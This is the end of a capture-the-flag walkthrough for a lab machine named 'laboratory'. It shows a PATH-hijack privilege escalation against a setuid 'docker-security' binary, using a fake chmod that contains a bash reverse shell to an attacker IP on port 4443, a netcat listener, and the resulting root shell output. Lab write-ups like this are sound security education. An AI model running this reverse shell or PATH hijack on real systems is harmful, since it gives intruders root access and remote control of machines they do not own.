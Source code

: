 ```bash
$ strings docker-security
[...]

[]A\A]A^A_
chmod 700 /usr/bin/docker
chmod 660 /var/run/docker.sock
;*3$"
GCC: (Debian 10.1.0-6) 10.1.0

[...]
```

### Path hijack

To get `root` privileges, the first step is to create a fake `chmod`, in this case to return a reverse shel to the attacker machine. After that we need to modify user's PATH variable so we can call our own chmod file instead of the one previously installed. The steps below achieve the tasks mentioned:

```bash
dexter@laboratory:~$ echo '#!/bin/bash' > /dev/shm/chmod
dexter@laboratory:~$ echo 'bash -i >& /dev/tcp/10.10.10.10/4443 0>&1' >> /dev/shm/chmod
dexter@laboratory:~$ chmod +x /dev/shm/chmod
dexter@laboratory:~$ PATH=/dev/shm:$PATH
dexter@laboratory:~$ echo $PATH
/dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/snap/bin
```

After starting the listener in the port defined in the fake chmod binary (`nc -lnvp 4443`), executed `docker-security` which gave us the very expected root access, allowing us to read the root flag.

```bash
$ nc -lnvp 4443                                                                                             
listening on [any] 4443 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.216] 44754
root@laboratory:~# id  
id
uid=0(root) gid=0(root) groups=0(root),1000(dexter)
root@laboratory:~# cat /root/root.txt
cat /root/root.txt
<redacted>
```

I hope you guys have enjoyed this box resolution.

See you in the next post soon! :smiley:
